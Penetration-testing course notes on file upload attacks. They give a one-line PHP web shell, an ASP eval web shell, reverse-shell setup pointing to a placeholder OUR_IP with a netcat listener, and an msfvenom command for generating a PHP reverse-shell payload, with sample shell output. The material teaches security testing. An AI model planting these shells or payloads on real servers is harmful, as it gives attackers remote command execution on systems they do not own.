 ## Web Shells
One good option for `PHP` is [phpbash](https://github.com/Arrexel/phpbash), which provides a terminal-like, semi-interactive web shell. Furthermore, [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) provides a plethora of web shells for different frameworks and languages, which can find in the `/opt/useful/SecLists/Web-Shells` directory in `PwnBox`. Let's try to upload `phpbash.php` from [phpbash](https://github.com/Arrexel/phpbash) to our web application, and then navigate to its link by clicking on the Download button

![](file_uploads_php_bash.jpg)

## Writing Custom Web Shell
* We should also know how to write a simple web shell manually
* This is because we may not have access to online tools during some penetration tests, so we need to be able to create one when needed
* For example, with `PHP` web applications, we can use the `system()` function that executes system commands and prints their output, and pass it the `cmd` parameter with `$_REQUEST['cmd']`

```php
<?php system($_REQUEST['cmd']); ?>
```

**Tip:** If we are using this custom web shell in a browser, it may be best to use source-view by clicking `[CTRL+U]`, as the source-view shows the command output as it would be shown in the terminal, without any HTML rendering that may affect how the output is formatted.

* For `.NET` web applications, we can pass the `cmd` parameter with `request('cmd')` to the `eval()` function, and it should also execute the command specified in `?cmd=` and print its output

```
<% eval request('cmd') %>
```

We can find various other web shells online, many of which can be easily memorized for web penetration testing purposes. It must be noted that `in certain cases, web shells may not work`. This may be due to the web server preventing the use of some functions utilized by the web shell (e.g. `system()`), or due to a Web Application Firewall, among other reasons. In these cases, we may need to use advanced techniques to bypass these security mitigations, but this is outside the scope of this module.

## Reverse Shell
* One reliable reverse shell for `PHP` is the [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell) PHP reverse shell
* Modify lines `49` and `50` and input our machine's IP/PORT

```php
$ip = 'OUR_IP';     // CHANGE THIS
$port = OUR_PORT;   // CHANGE THIS
```

* Start a `netcat` listener on our machine (with the above port), upload our script to the web application, and then visit its link to execute the script and get a reverse shell connection

```sh
$ nc -lvnp OUR_PORT
listening on [any] OUR_PORT ...
connect to [OUR_IP] from (UNKNOWN) [188.166.173.208] 35232
# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

* Furthermore, the same [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) we mentioned earlier also contains reverse shell scripts for various languages and web frameworks, and we can utilize any of them to receive a reverse shell as well

## Generating Custom Reverse Shell Scripts
* Better to use core web framework functions to connect to our machine
* This may not be as easy to memorize as a web shell script

```sh
$ msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
...SNIP...
Payload size: 3033 bytes
```

```sh
$ nc -lvnp OUR_PORT
listening on [any] OUR_PORT ...
connect to [OUR_IP] from (UNKNOWN) [181.151.182.286] 56232
# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
